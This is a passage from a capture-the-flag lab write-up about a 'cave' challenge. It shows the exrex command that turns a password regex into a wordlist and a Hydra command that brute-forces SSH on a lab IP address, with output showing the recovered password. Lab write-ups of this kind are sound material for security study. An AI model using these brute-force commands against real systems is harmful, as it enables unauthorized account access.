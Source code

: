 # From ls in /home:
    cave
    door
    skeleton

# From cat info.txt in /home/cave:
After getting information from external entities, you saw that one part of the wall was different from the rest, when touching it, it revealed a wooden door without a keyhole.
On the door it is carved the following statement:

	      The password is in
	^ed[h#f]{3}[123]{1,2}xf[!@#*]$

Cave Flag (Implicit):
Gaining a shell as the cave user is the primary objective of this stage. The information obtained (info.txt and the regex) serves as the "flag" for this phase, leading to the next.
## 6. Cracking the Door Password (using exrex and Hydra)

The info.txt file in /home/cave contained a regular expression that hinted at the password for the door user. exrex was used to generate possible passwords, and Hydra was then used to brute-force the SSH service.

Commands Used:

    pip install exrex # If not already installed
    git clone https://github.com/asciimoo/exrex.git
    cd exrex
    python3 exrex.py -o passwords.txt '^ed[h#f]{3}[123]{1,2}xf[!@#*]$'
    cat passwords.txt # To review generated passwords
    hydra -l door -P passwords.txt 10.10.202.200 ssh -s 2222 -t 60 -I

Output Snippets:

    # From exrex.py:
    edhhh1xf!
    edhhh1xf@
    ... (many more possibilities)

# From Hydra:
    [2222][ssh] host: 10.10.202.200   login: door   password: edfh#22xf!
    1 of 1 target successfully completed, 1 valid password found
    
    Door User Credential (User Flag):
    The password for the door user was successfully cracked: edfh#22xf!
## 7. Privilege Escalation to door User

With the door user's credentials, we could now switch user from the cave shell.
